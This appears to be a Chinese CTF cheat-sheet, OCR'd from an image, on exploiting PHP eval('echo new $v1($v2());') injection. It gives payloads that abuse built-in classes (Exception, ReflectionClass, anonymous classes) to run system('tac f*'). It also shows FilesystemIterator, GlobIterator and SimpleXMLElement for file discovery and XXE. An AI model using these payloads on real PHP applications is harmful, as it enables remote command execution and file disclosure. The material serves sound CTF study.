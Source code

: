 
## **eval和new类结合**
```
eval("echo new $v1($v2());");

让new后面有个正常的类不报错，后拼接操作。payload:
v1=Exception();system('tac f*');//&v2=a



法二 匿名类+魔术方法 
v1=class{ public function __construct(){system('tac fl*');}};&v2=w



或使用echo直接让$v1触发__toString()，此时传递的$v2参数会被输出。
这里需要对v2后面的括号进行解释，如v2=system(ls)，$v2()会把 $v2 返回的值会作为函数Q名去调用，但是调用失败了。

v1=ReflectionClass&v2=phpinfo
v1=ReflectionClass&v2=system('tac f*')
v1=CachingIterator&v2=system(ls)
v1=Exception&v2=system(ls)
```
如果有过滤不能使用()，使用getcwd()方法，无需传参返回当前所在目录。
而FilesystemIterator构造方法根据目录返回第一个文件名。这个文件名一般就是flag文件且可以直接访问
```
v1=FilesystemIterator&v2=getcwd
eval("echo new FilesystemIterator(getcwd());");
```


^
## **存在XXE的类**
PHP的内置类
SimpleXMLElement
对象
```
// 解析 XML 数据
$xmlData = '<root><element>value</element></root>';
$xml = new SimpleXMLElement($xmlData);

// 解析 XML 文件 
URL$xmlUrl = 'http://example.com/example.xml';
$xml = new SimpleXMLElement($xmlUrl, 0, TRUE);
此时外链的xml是存在xxe即可。
```


^
## **搜索文件名的类**
列出当前目录.php结尾有什么文件。
```
new GlobIterator("./*.php",0);
GlobIterator&param=./*.php&param2=0
```